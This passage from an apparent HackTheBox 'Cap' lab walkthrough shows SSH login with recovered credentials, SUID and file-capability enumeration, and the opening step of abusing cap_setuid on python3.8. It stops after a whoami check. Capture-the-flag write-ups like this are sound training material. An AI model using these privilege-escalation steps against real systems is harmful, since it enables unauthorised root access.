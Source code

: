 ### 3.1 SSH Access

Use the recovered credentials to log in via SSH:

```bash
ssh nathan@10.10.10.245
```

![user_flag](GitHubv2/HackTheBox/EASY/Cap/screenshots/user_flag.png)

✅ **SSH login successful**  
🏁 **User flag retrieved from Nathan's home directory**

---
## 4. Privilege Escalation

### 4.1 Checking SUID binaries

After obtaining the user flag, we start privilege escalation by checking for SUID binaries owned by root:

```bash
find / -perm -4000 -user root 2>/dev/null | xargs ls -l
```

![root_permisions](GitHubv2/HackTheBox/EASY/Cap/screenshots/root_permisions.png)

No exploitable SUID binaries are found.

---
### 4.2 Checking capabilities

Next, we enumerate all file capabilities for user `nathan`:

```bash
getcap -r / 2>/dev/null
```

![getcap_devnull](GitHubv2/HackTheBox/EASY/Cap/screenshots/getcap_devnull.png)

Finding:

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+ep
```

---
### 4.3 Exploiting `cap_setuid`

The `CAP_SETUID` capability allows a process to change its UID without needing the SUID bit.  

First, verify that Python executes commands as our current user:

```bash
python3.8 -c 'import os; os.system("whoami")'
```
Output:
```
nathan
```
